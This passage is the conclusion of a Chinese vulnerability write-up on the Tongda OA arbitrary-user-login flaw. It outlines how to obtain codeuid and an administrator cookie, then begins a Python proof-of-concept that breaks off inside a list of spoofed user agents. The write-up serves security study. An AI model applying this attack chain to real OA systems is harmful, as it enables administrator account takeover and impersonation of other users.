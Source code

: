 ## 5. 总结

通达OA任意用户登录（伪造）是一个比较典型的任意用户登录漏洞，因此作为学习这类漏洞的案例还是比较有代表性的。
漏洞利用过程也比较简单，需要关注的是，在具备了可控输入参数UID和UID缓存到session中这两个条件时，就可能存在任意用户伪造漏洞了，再通过代码审计可知，需要codeuid的值，通过代码引用回溯，定位到获取codeuid的方法，最后通过发起存在漏洞点的请求获取到管理员cookie，然后在未登录的情况下访问后台时带上这个cookie，就可以实现以管理员的身份登录了，如果uid递增，也就是系统中存在的其他用户，也就实现了任意用户登录了。

## 附：POC
```python
'''
@Author         : Sp4ce
@Date           : 2020-03-17 23:42:16
LastEditors    : Sp4ce
LastEditTime   : 2020-08-27 10:21:44
@Description    : Challenge Everything.
'''
import requests
from random import choice
import argparse
import json

USER_AGENTS = [
    "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; AcooBrowser; .NET CLR 1.1.4322; .NET CLR 2.0.50727)",
    "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0; Acoo Browser; SLCC1; .NET CLR 2.0.50727; Media Center PC 5.0; .NET CLR 3.0.04506)",
    "Mozilla/4.0 (compatible; MSIE 7.0; AOL 9.5; AOLBuild 4337.35; Windows NT 5.1; .NET CLR 1.1.4322; .NET CLR 2.0.50727)",
    "Mozilla/5.0 (Windows; U; MSIE 9.0; Windows NT 9.0; en-US)",
    "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET CLR 2.0.50727; Media Center PC 6.0)",
    "Mozilla/5.0 (compatible; MSIE 8.0; Windows NT 6.0; Trident/4.0; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET CLR 1.0.3705; .NET CLR 1.1.4322)",
    "Mozilla/4.0 (compatible; MSIE 7.0b; Windows NT 5.2; .NET CLR 1.1.4322; .NET CLR 2.0.50727; InfoPath.2; .NET CLR 3.0.04506.30)",
    "Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN) AppleWebKit/523.15 (KHTML, like Gecko, Safari/419.3) Arora/0.3 (Change: 287 c9dfb30)",
    "Mozilla/5.0 (X11; U; Linux; en-US) AppleWebKit/527+ (KHTML, like Gecko, Safari/419.3) Arora/0.6",
    "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.8.1.2pre) Gecko/20070215 K-Ninja/2.1.1",
    "Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN; rv:1.9) Gecko/20080705 Firefox/3.0 Kapiko/3.0",
    "Mozilla/5.0 (X11; Linux i686; U;) Gecko/20070322 Kazehakase/0.4.5",
    "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.8) Gecko Fedora/1.9.0.8-1.fc10 Kazehakase/0.5.6",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.56 Safari/535.11",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_7_3) AppleWebKit/535.20 (KHTML, like Gecko) Chrome/19.0.1036.7 Safari/535.20",
    "Opera/9.80 (Macintosh; Intel Mac OS X 10.6.8; U; fr) Presto/2.9.168 Version/11.52",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/536.11 (KHTML, like Gecko) Chrome/20.0.1132.11 TaoBrowser/2.0 Safari/536.11",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.71 Safari/537.1 LBBROWSER",
    "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; LBBROWSER)",
    "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E; LBBROWSER)",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.84 Safari/535.11 LBBROWSER",
    "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",
```